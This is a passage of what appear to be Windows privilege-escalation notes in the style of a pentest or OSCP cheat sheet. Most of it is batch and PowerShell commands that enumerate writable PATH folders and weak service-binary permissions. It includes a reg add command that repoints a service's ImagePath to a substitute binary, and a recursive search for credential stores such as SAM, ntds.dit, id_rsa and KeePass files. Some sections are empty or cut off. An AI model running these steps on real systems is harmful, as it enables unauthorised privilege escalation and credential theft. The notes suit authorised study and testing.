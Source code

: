 Checking for permissions of all folders inside PATH (how to modify for any path).
    - for group in $(whoami /groups); put group in command

```bash
for %%A in ("%path:;=";"%") do ( cmd.exe /c icacls "%%~A" 2>nul | findstr /i "(F) (M) (W) :\" | findstr /i ":\\ everyone authenticated users todos %username%" && echo. )
```

```bash
$SpecificPath = "C:\"

$output = icacls $SpecificPath 2>$null | Select-String -Pattern "(F) (M) (W) :\" | Select-String -Pattern ":\\ everyone authenticated users todos $env:username"
if ($output) { Write-Output "`n" }
```

Get every binary that is executed by a service using wmic (not in system32) and check your permissions using icacls.

```bash
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> %temp%\perm.txt

for /f eol^=^"^ delims^=^" %a in (%temp%\perm.txt) do cmd.exe /c icacls "%a" 2>nul | findstr "(M) (F) :\"
```

You can also use sc and icacls.

```bash
sc query state= all | findstr "SERVICE_NAME:" >> C:\Temp\Servicenames.txt
FOR /F "tokens=2 delims= " %i in (C:\Temp\Servicenames.txt) DO @echo %i >> C:\Temp\services.txt
FOR /F %i in (C:\Temp\services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> C:\Temp\path.txt
```

Services registry modify permissions. You should check if each user can modify any service registry. You can check your permissions over a service registry doing:



To change the Path of the binary executed:

```bash
reg add HKLM\SYSTEM\CurrentControlSet\services\<service_name> /v ImagePath /t REG_EXPAND_SZ /d C:\path\new\binary /f
```

#### Scheduled Tasks


#### Search for files

```bash
Get-ChildItem -Path C:\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*.log,*.kdbx,*.git,*.rdp,*.config,*cups*,*print*,*secret*,*cred*,*.ini,*oscp*,*ms01*,*pass*,*ms02*,*dc01*,SYSTEM,SAM,SECURITY,ntds.dit,id_rsa,authorized_keys -File -Recurse -ErrorAction SilentlyContinue | Where-Object { -not ($_.FullName -like "C:\Windows\servicing\LCU\*") -and -not ($_.FullName -like "C:\Windows\Microsoft.NET\Framework\*") -and -not ($_.FullName -like "C:\Windows\WinSxS\amd*") -and -not ($_.FullName -like "C:\Windows\WinSxS\x*")}
Get-ChildItem -Path C:\Users -Include *.xml,*.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,id_rsa,authorized_keys,*.exe,*.log -File -Recurse -ErrorAction SilentlyContinue
```
